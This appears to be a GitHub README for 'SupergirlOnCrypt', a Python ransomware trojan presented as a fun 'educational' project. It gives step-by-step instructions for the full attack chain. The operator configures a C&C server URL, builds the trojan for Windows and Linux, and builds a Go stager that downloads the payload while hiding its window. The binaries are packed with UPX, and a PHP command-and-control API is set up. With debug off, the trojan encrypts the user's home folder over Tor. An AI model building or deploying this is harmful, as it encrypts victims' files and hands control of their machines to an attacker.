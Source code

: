 # SupergirlOnCrypt :heart: :punch: :boom:

![Project Logo](https://thoughtful-dev.com/projects/supergirloncrypt/header.jpg)

**For EDUCATIONAL PURPOSE ONLY**

This is a Crypto Trojan written in Python which can be packed using Pyinstaller... 
and i :heart: Supergirl so there you go.

**To decrypt the Data the Victim has to answer some Questions about Supergirl! (No Payment required since it was just a fun Project)**

## Content
1. [Requirements](#requirements)
2. [Setup](#setup)
3. [Building](#building)
---
![Image while Building](https://thoughtful-dev.com/projects/supergirloncrypt/term.png)
---
## Requirements

Both Windows AND Linux must have Python >= 3.5 installed to build the Executable/Binary.

Optionally you need the Golang compiler if you want to use the Go Stager because the Binary with Pyinstaller is quite large (~60mb - Linux , 30mb - Windows)
(Go Stager is only ~700kb).

---
## Setup

We will generate the API´s public and private key in this process.
So if you first generate a binary for Linux as shown here then you have to copy the whole repository folder to the windows box and only choose to recreate the `venv`.
## The Trojan

1. Change the API_URL in App/Config.py to your C&C Server URL
2. Disable DEBUG_MODE (Leave it on if your API is running locally because otherwise Tor cant reach your local network)
3. Optionally change your File Types
4. Build Executables/Binary for Windows and/or Linux
5. Setup API

## Overview of DEBUG True vs False
Debug On | Debug Off
------------ | -------------
Creates a logfile | No logfile
Does not user Tor | Uses Tor to communicate
Encrypts Folder `./test_files` | Encrypts Users HomeFolder

**If you are Testing leave the DEBUG MODE ON OR USE A VM**


## Building

### Linux
```
$ cd Scripts
$ ./supergirl.sh setup python3
$ ./supergirl.sh build
```
**Now copy the whole folder to the Windows VM/Machine where you want to build the Windows Executable. When running the `supergirl.ps1` ONLY recreate the `venv` and NOT the Keys since they are already generated from our Linux Setup.** *

*Optionally you can also clone the Repo to the Windows Machine and only replace `API/bin/private.key` and `App/res/server.public.key`

**This also applies vice versa**

### Windows
```
PS> cd Scripts
PS> .\supergirl.ps1 -mode setup -path C:\\...\\python.exe
PS> .\supergirl.ps1 -mode build
```

### Building Stager
1. Upload your Binary which you gathered from the previous step
2. Go to `./Stagers/Go` and open `main.go`
3. Change line 39 `var url string = "your-direct-download-url-here"`

#### Building a Linux Stager
4. `GOOS=linux go build -ldflags="-s -w" -o stager main.go`

#### Building a Windows Stager
5. `GOOS=windows GOARCH=386 go build -ldflags="-s -w -H=windowsgui" -o stager.exe main.go`

6. Optionally compress the Stager(.exe) binary with upx

7. LINUX: `upx --ultra-brute -o compressed_stager stager`
7. WINDOWS: `upx.exe --ultra-brute -o compressed_stager.exe stager.exe`

8. Wait...
9. ???
10. Profit.


## API

Since we communicate with our API we need to set it up. The API(located in ./API duhh) is written in PHP so any Linux /Win Server will do.
On your Ubuntu C&C Server run:
```
$ sudo add-apt-repository ppa:ondrej/php
$ sudo apt update
$ sudo apt install apache2 php7.1 libapache2-mod-php7.1 php7.1-mbstring php7.1-sqlite3 php7.1-xml
$ sudo apt install composer unzip
```
Now copy the API Folder to your Server in the www root

```
$ cd /var/html
$ composer install
```
We need to install python to decrypt our keys if a user wants to decrypt
```
$ sudo apt install python3 python3-dev python3-pip
$ pip3 install cryptography
```
Your API should now be ready on http://ip/public (should respond with 501)

**I wont show you how to setup a Tor hidden Service**



# Disclaimer

### FOR EDUCATIONAL PURPOSE ONLY I AM NOT RESPONSIBLE FOR ANYTHING
```
            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2017 ThoughtfulDev

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.
```
---
I have no Idea if you understand this README. 
